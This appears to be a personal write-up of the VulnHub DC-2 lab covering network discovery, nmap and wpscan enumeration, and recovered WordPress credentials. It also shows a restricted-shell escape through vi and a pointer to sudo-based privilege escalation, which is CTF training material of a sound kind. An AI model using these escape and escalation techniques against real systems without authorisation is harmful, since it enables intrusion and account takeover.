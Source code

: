 ```yaml
---
title: WRITE-UP DC-2
date: 2024-08-04 15:15:15 +0700
categories: [write up, vulnhub, red team, oscp]
tags: [vulnhub]     # TAG names should always be lowercase
---
```

# Write-Up DC-2 

## 1. Enumeration
i used netdicover to see where is my lab

```terminal
sudo netdiscover
```
![alt text](/assets/img/DC-2/dc2_netdiscover.png)
Ip: ```192.168.100.19```

i used nmap to see port open 

```terminal
sudo nmap -sC -sV -vvv -p- --min-rate=1000 192.168.100.19
```

*   sC : Enable default script to quick and safe
*   sV : Detect service
*   vvv : increase verbosity
*   p : port to scan "-p-" is all port 1-65535
*   min-rate=1000 : packets are sent < 1000s
![alt text](/assets/img/DC-2/dc2_nmap.png)

80 is ```http```
7744 is ```ssh```

site is wordpress so i will enum with wpscan
```
wpscan --url http://dc-2 -e
```

## 2. Post Exploitation
![alt text](/assets/img/DC-2/dc2_login.png)

```jerry``` pass is ```adipiscing```

```tom``` pass is ```parturient```

after take i ssh with user tom and i get him user but i have ``` restrict shell```

![alt text](/assets/img/DC-2/dc2_restrict_shell.png)

```
echo $PATH
```

![alt text](/assets/img/DC-2/dc2_path.png)

i see i can use ```vi``` so i escape ```restrict shell``` by ```vi```

```
vi
: set shell=/bin/bash
: shell
export PATH=/bin:/usr/bin:$PATH
export SHELL=/bin/bash:$SHELL

```

## 3. Privilage Escalation
i using sudo -l Check commands you can execute with sudo and gtfobin
```
sudo -l
```
![alt text](/assets/img/DC-2/dc2_sudol.png)

okey it time to go root
![alt text](/assets/img/DC-2/dc2_root.png)
